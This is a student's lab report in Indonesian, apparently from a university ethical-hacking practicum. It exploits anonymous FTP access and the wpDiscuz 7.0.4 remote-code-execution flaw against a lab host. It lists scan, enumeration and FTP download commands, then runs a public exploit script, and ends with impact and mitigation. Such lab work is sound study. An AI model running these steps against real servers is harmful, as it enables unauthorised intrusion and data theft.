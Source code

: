 # ETHACK-PRAKTIKUM-2-2024

1. Cover Page

Nama Praktikan: Muhammad Kenas Galeno Putra
NRP: 5027231069
Judul Praktikum: Vulnerability Exploitation on FTP and WordPress Plugins

2. Nama Kerentanan

Vulnerable FTP: vsFTPd 3.0.5
Vulnerable WordPress Plugin: wpDiscuz 7.0.4 (Remote Code Execution)

3. Deskripsi Kerentanan

Vulnerable FTP: Kerentanan pada server FTP ini memungkinkan akses anonymous, sehingga siapa pun bisa mengakses dan mengunduh file tanpa autentikasi, yang dapat berisiko jika file tersebut berisi informasi sensitif.
Vulnerable WordPress Plugin: Plugin wpDiscuz versi 7.0.4 rentan terhadap Remote Code Execution (RCE), memungkinkan penyerang menjalankan perintah di server yang menggunakan plugin ini.

4. CVSS Score

Vulnerable FTP: CVSS Score: 5.0 (Medium) – Risiko dari akses unauthorized namun tidak langsung memberikan kendali penuh ke sistem.
wpDiscuz RCE: CVSS Score: 9.8 (Critical) – Kerentanan RCE memberikan akses penuh penyerang ke server.

5. Langkah Pengerjaan

Vulnerable FTP:
Pindai server untuk menemukan port yang terbuka:

```bash
nmap -p- 10.15.42.245
```
![langkah 1](https://github.com/user-attachments/assets/c1c2c175-0904-42e9-ad4e-10f43bda4e87)


Pindai kerentanan FTP dengan Nmap:

```bash
gobuster dir --url http://10.15.42.245:487 --wordlist /usr/share/wordlists/dirb/common.txt
```
![langkah 2](https://github.com/user-attachments/assets/e1622ada-0dc9-4a72-b402-35f5904e8fd5)


Login ke FTP menggunakan akun anonymous:

```bash
ftp 10.15.42.245
```

```bash
ls
get list.xyz
get readme.txt
exit
```

![langkah 3](https://github.com/user-attachments/assets/ddb6a8dd-5e9e-4240-966f-124bf9380e0a)


Mencari username atau password dalam file:

```bash
cat list.xyz
grep -i "ethack" list.xyz
```

![langkah 4](https://github.com/user-attachments/assets/af24be7f-4219-40a3-8dd3-0d9b06e7c6e8)

Masukkan password pada hashes.txt

```bash
nano hashes.txt
```

![langkah 5](https://github.com/user-attachments/assets/70d6be57-2b69-45ee-a9f4-4fbfed67d89c)



Gunakan wpscan untuk mendeteksi plugin WordPress yang terinstal:

![langkah 6](https://github.com/user-attachments/assets/4b46ba37-e4cb-4191-a71a-ef75216d3920)


```bash
wpscan --url http://10.15.42.245:487 --enumerate p
```
![langkah 7](https://github.com/user-attachments/assets/86286eda-8900-48d6-8cf4-5b5a101df2f5)

Clone exploit wpDiscuz:

```bash
git clone https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE
```
![langkah 8](https://github.com/user-attachments/assets/ce1f2b97-1a83-4b2e-a69e-c977bfb87140)

Jalankan exploit:

```bash
cd CVE-2020-24186-wpDiscuz-7.0.4-RCE
```

```bash
sudo python3 wpDiscuz_RemoteCodeExec.py -u http://10.15.42.245:487 -p /2024/10/03/trial/
```

Tampilkan:

```bash
ls
```
![langkah 9](https://github.com/user-attachments/assets/42e42452-3951-4645-b4fe-8b848ad104e1)


6. Dampak

Vulnerable FTP: Akses unauthorized memungkinkan pengunduhan file yang mungkin berisi informasi sensitif seperti hash password, data pengguna, atau file penting lainnya.
wpDiscuz RCE: Penyerang bisa mengeksekusi perintah di server, yang bisa mengarah ke kontrol penuh atas server WordPress, termasuk pencurian data, defacement website, dan tindakan jahat lainnya.

7. Mitigasi

FTP Vulnerability:
Nonaktifkan akses anonymous pada FTP.
Gunakan protokol yang lebih aman seperti SFTP atau FTPS.
wpDiscuz RCE:
Patch plugin ke versi terbaru.
Batasi akses ke plugin dan pantau aktivitas server secara berkala untuk mendeteksi aktivitas mencurigakan.
